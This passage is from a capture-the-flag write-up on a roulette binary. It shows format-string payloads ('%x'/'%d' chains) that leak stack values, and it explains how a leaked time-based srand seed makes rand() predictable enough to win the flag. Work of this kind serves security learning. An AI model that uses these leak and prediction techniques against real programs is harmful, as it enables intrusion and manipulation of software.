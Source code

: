 ```console
root@kali:/media/sf_CTFs/matrix/Roulette# ./roulette.bin
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009
Please enter your command (it will be printed to make sure you entered the right one):
%x.%x.%x.%x.%x.%x.%x.%x
0.0.c00.0.5034bbe0.f0b5ff.c2.1
```

That's all nice, but how does this help us get the flag? Well, the flag is printed if we are able to get more than 10000000 points:
```c
if (10000000 < (int)*p_points) {
    free(p_points);
    puts("You Won!\n The Flag is: MCL{NOT_A_REAL_FLAG}");
    fflush(stdout);
    return 0;
}
```

And one of the ways to gain that much points is to win the game time after time. To do that, we need to know what is the selected number, the one generated by calling `rand()` within `genrate_random_number(1,0x24)`. How do we predict what is the value that `rand()` will return? Well, since `rand()` is just a pseudo-random generator, it becomes trivial as long as we have the seed that was using for initializing `rand()` via a call to `srand()`. 

In our program we have two calls to `srand`. The first one provides a seed based on the current Unix time. Then, another "random" number is added to this time in order to create the second seed which will be used throughout the rest of the program:

```c
time_seed = 0;
time_seed = time((time_t *)0x0);
srand((uint)time_seed);
rand_num = genrate_random_number(1000,10000);
time_seed = time_seed + rand_num;
srand((uint)time_seed);
```

This is pretty predictable by itself, since we have a very good estimation for the initial timestamp. However, we can avoid the need for estimations altogether by using the format string vulnerability we saw earlier and leaking `time_seed` from the stack.

First, we leak a few values from the stack and look for a value that looks like a Unix timestamp:
```console
root@kali:/media/sf_CTFs/matrix/Roulette# date +%s && ./roulette.bin
1613936438
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009
Please enter your command (it will be printed to make sure you entered the right one):
%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.
0.0.3072.0.687061984.15775231.194.1.-1262164427.1613944924.0.-1240788320.0.
```
